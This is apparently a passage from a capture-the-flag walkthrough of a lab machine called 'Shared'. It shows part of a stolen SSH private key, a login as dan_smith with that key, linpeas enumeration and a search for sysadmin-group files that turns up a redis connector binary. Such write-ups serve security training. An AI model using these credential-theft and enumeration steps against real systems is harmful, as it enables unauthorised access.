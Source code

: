 ```bash
wictz9NZYWpEZQAuSX2QJgBJc1WNOtrgJscNauv7MOtZYclqKJShDd/NHUGPnNasHiPjtN
CRr7thGmZ6G9yEnXKkjZJ1Neh5Gfx31fQBaBd4XyVFsvUSphjNAAAAwQD4Yntc2zAbNSt6
GhNb4pHYwMTPwV4DoXDk+wIKmU7qs94cn4o33PAA7ClZ3ddVt9FTkqIrIkKQNXLQIVI7EY
Jg2H102ohz1lPWC9aLRFCDFz3bgBKluiS3N2SFbkGiQHZoT93qn612b+VOgX1qGjx1lZ/H
I152QStTwcFPlJ0Wu6YIBcEq4Rc+iFqqQDq0z0MWhOHYvpcsycXk/hIlUhJNpExIs7TUKU
SJyDK0JWt2oKPVhGA62iGGx2+cnGIoROcAAADBAMMvzNfUfamB1hdLrBS/9R+zEoOLUxbE
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

We now save this SSH key and can then log in as dan_smith. 

```bash
$ ssh dan_smith@10.10.11.172 -i id_rsa
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ cat user.txt
98****************************18
```

We now download linpeas and run it to see if we can find something interesting. We also look at what groups there are and what specific files are associated with them: 

```bash
dan_smith@shared:~$ groups
dan_smith developer sysadmin
dan_smith@shared:~$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
```

When we execute the file: 

```bash
dan_smith@shared:~$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:13281
run_id:5055adf8d2906df2989832384df46ac8857a52b8
tcp_port:6379
uptime_in_seconds:2
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:3253365
executable:/usr/bin/redis-server
```